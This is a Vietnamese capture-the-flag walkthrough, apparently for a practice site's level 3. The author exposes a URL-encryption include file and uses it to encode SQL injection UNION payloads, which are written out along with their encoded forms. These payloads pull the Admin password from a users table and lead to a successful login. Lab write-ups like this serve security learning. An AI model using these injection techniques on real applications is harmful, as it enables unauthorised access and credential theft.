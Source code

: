 ## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 5/5/2022

- Sau khi thử loginbypass và union, trang web không có dấu hiệu bất thường.
- Ta thử vào 2 user là <code>TheCow</code> và <code>Admin</code>. Ta thấy địa chỉ url hơi khác thường <code>usr=MDQyMjExMDE0MTgyMTQw</code>. Đây có thể là dữ liệu đã bị mã hóa và ta cần tìm cách giải mã.
- Nhưng sau khi thực hiện giải mã thuật toán này dưới nhiều thuật toán khác nhau vẫn không cho ra kết quả. Ta thử chèn một số kí hiệu gây lỗi vào url. Và với lần thử <code>usr[]=MDQyMjExMDE0MTgyMTQw</code>, ta nhận được thông báo lỗi <code>Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 26</code>.

  ![CHESSE](img/10.png)

- Sau khi thử truy cập vào trang <code>urlcrypt.inc</code>. Ta có được 2 hàm là mã hóa và giải mã.
  
  ![CHESSE](img/11.png)

- Tiếp theo ta thử giải mã của <code>TheCow</code> là <code>MDYzMjIzMDA2MTU2MTQxMjU0</code>
  
  ![CHESSE](img/12.png)

- Vậy, đây là dữ liệu mã hóa. Ta thử thực hiện chèn tấn công uinon. Sau vài lần thử, ta có được số cột là 7 với <code>' union select 1,2,3,4,5,6,7#</code> sau khi thực hiện mã hóa thành <code>MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDgzMTc3MDg5MDMzMjIzMjQzMTk0MDcyMjM2MTMwMjAzMTY2</code>
  
   ![CHESSE](img/13.png)

- Và giờ là bước cuối cùng, sau khi có cột ta dùng <code>' union select 1,username,3,4,5,password,7 from level3_users where username='Admin'#</code> sau khi thực hiện mã hóa thành <code>MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDIwMjM4MDE1MTI3MTMzMTkwMTU0MDAxMjQ2MTU3MjA4MTc3MDk2MTI4MjIwMTE2MTIxMTYzMTQ5MjEzMTYwMTA4MDMyMjUyMjAzMDk3MTU2MTkwMTc1MDEzMTM5MDc4MTU1MDk2MDg1MTM0MTk3MTE5MDU5MTYzMTc4MDU2MDM3MDAzMTM2MDQ3MDY2MTA2MTE0MDQ2MjA2MTQ4MDcyMTQxMjE0MDc1MDQ0MjE1MjAzMDM3MDgyMTk4MDcyMTIzMjE1MTE0MjIz</code>
  
  ![CHESSE](img/14.png)

- Như vậy, ta có user là <code>Admin</code> và password là <code>thisisaverysecurepasswordEEE5rt</code>. Ta thực hiện đang nhập và thành công.
  
  ![CHESSE](img/15.png)